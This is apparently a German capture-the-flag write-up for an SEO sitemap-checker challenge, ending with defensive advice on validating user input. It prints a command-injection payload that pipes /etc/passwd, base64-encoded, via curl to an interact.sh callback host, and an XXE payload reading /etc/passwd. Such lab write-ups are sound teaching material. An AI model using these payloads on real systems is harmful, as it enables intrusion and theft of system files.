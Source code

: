 # Suchmaschinenoptimierung

## Optimierung für Suchende und Findende

_Das DBH-SEO-Tool: sitemap-Checker_ weißt vollmundig auf die dargebotenen Dienste hin:

> Schlechte Rankings waren besser. Optimieren Sie Ihre Onpage-Performance mit dem DBH-SEO-Tool.

![DBH-SEO-Tool](screenshots/1.jpg)

### Lösungsvorschlag 1

Bei Analyse des Aufrufs ist zu erkennen, dass der zu pingende Host übergeben wird.
Der Output des Ping-Befehls ist klar zu erkennen.
![DBH-SEO-Tool](screenshots/s1.jpg)
Beim Experimentieren mit dem Befehl, ist schnell zu erkennen, dass eine `Command Injection` möglich ist.
Dazu kann in der Browser-Console, mit curl oder einem beliebigen Tool der Request abgesetzt werden.
In folgendem Beispiel wurde der Output base64-kodiert an einen Empfänger (interact.sh) gesendet.
Der Code kann in der Console der Entwicklertools (F12) ausgeführt werden.

```js
$.post(
	"handler.php",
	{
		action: "ping",
		host: "heise.de | curl cbhen142vtc00001qj6ggfazkowyyyyyb.interact.sh/$(tail /etc/passwd | base64 -w0)",
	},
	function (data) {
		console.log(data);
	}
);
```
Eingabe / Ausgabe der Console:
![Console](screenshots/console.png)

Curl Request bei interact.sh:
![Interact](screenshots/interact.png)

Flag in /etc/passwd:
![Interact](screenshots/passwd.png)

### Lösungsvorschlag 2

Im Quelltext findet sich ein Artefakt, welches anzeigt, wie neue Hosts hinzugefügt werden:
   ![DBH-SEO-Tool](screenshots/4.jpg)
   Wer das Code-Snippet nicht finden oder aktivieren kann, wird auch in der `app.js:addChannel()` fündig.

Nachdem das Snippet zum Hinzufügen neuer Channels entdeckt und aktiviert wurde, kann ein neuer Host hinzugefügt werden.
Dieser erlaubt standardmäßig die `sitemap.xml` via https: abzurufen.


```xml
<?xml version="1.0"?>
<!DOCTYPE results [<!ENTITY harmless SYSTEM "file:///etc/passwd">]>
<results>
  <result>&harmless;</result>
</results>
```

In diesem Fall greifen wir auf eine _Examples of XML External Entity Injection_[^1] zurück. Hiermit kann über den obigen Befehl eine zusätzliche Datei in das XML-File geladen werden. Wichtig ist, dass diese über einen _https_-Host mit der Endung _/sitemap.xml_ ausgeliefert wird.

## Flag
```
DBH{ServingYourCommand}
```

# Fix

Komplexe Anwendungen und vor allem das Arbeiten mit `user supplied content` ist eine große Herausforderung. Typischerweise wird versucht, einen Upload einer als `.jpg` getarnten php-Shell, zu vermeiden. Interaktive Dateitypen bieten dabei die größte Angriffsfläche und müssen geprüft werden. Dazu zählen Flash-, PDF-Dateien, Office Dokumente mit Macros, XML-Dateien und viele weitere mehr. Entweder müssen solche Befehle herausgefiltert oder das Dokument _non-interactive_ gerendert werden.

Eine Übergabe von User-Daten (in unserem Beispiel Hosts die gepingt werden) muss unbedingt und immer gefiltert und geprüft werden. In der Challenge filtern wir Shell-Commands heraus, sodass die Exfiltration erschwert wird. Eine korrekte Validierung des übergebenen Hosts muss implementiert werden. Dies kann entweder per `regex` oder vorhandener `parse_url`-Funktion, je nach eingesetzter Programmiersprache, umgesetzt werden. Never _ever_ trust user input.

## Footnotes

[^1]: vgl. https://github.com/padraic/phpsecurity/blob/master/book/lang/en/source/_includes/XML-Injection.rst#examples-of-xml-external-entity-injection
